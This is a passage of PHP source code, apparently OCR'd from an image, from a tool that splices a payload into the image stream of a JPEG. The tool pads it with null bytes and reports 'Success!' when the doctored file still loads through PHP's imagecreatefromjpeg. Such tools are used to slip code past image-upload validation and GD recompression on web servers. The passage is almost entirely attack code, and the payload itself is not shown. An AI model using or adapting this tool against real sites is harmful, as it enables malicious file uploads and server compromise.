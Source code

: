                                 break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

